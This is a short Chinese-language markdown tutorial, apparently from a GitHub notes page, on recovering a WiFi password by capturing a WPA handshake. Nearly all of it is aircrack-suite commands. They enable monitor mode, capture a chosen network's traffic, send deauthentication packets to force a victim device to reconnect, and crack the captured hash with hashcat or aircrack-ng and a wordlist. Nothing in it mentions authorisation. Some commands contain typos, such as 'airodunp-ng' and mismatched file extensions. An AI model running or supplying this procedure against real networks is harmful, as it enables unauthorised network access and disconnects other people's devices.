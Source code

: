 # 通过握手包获取 WiFi 密码

1. 查看網絡設備, 獲取無線網卡名稱.

   ```bash
   iwconfig
   ```

2. 開啓無線網卡監聽模式.

   ```bash
   sudo airmon-ng start wlan0
   ```

   若设备被占用, 执行下列命令来结束占用设备的进程:  

   ```bash
   sudo airmon-ng check kill
   ```

   開啓監聽模式後, 無線網卡名稱發生改變.  後面會附加`mon`(monitor), 即`wlan0mon`.
   
   !!! warning
       監聽模式開啓後的無線網卡將無法訪問 Internet, 直到監聽模式被關閉.

3. 監聽 WiFi 信號.

   ```bash
   sudo airodunp-ng wlan0mon
   ```
   
   當發現目標 WiFi 時按`Ctrl+C`停止掃描. 並記錄 BSSID 和 CH 兩個參數.

4. 捕獲指定 WiFi 通信內容.

   ```bash
   sudo airodump-ng -w [.cap存檔名稱] -c [CH] --bssid [BSSID] wlan0mon
   ```

5. 斷開指定設備與指定 WiFi 的鏈接.

   ```bash
   sudo aireplay-ng -0 5 -a [BSSID] -c [Target MAC] wlan0mon
   ```

   目標設備從指定 WiFi 斷開鏈接後將嘗試重連, 會向路由器發送握手包. 而第4步將會捕獲這個握手包.

6. 當第4步提示捕獲握手包時按下`Ctrl+C`結束監聽.

   此時, 握手包的數據已經被記錄在第4步指定的`.cap`文件中.

7. 對`.cap`文件中握手包的hash進行破解.

   - 使用 Hashcat. (推薦)

      ```bash
      aircrack-ng [.cap存檔文件] -j [.haccpx文件]   # 將 .cap 文件轉爲 hashcat 接受的 .haccpx 文件
      hashcat -m 2500 -a 0 [.hccapx文件] [字典文件] # 利用 hashcat 進行破解
      ```

   - 使用 aircrack-ng.

      ```bash
      aircrack-ng -w [.cap存檔文件] [字典文件]
      ```

8. 關閉無線網卡監聽模式.

   ```bash
   sudo airmon-ng stop wlan0mon
   ```
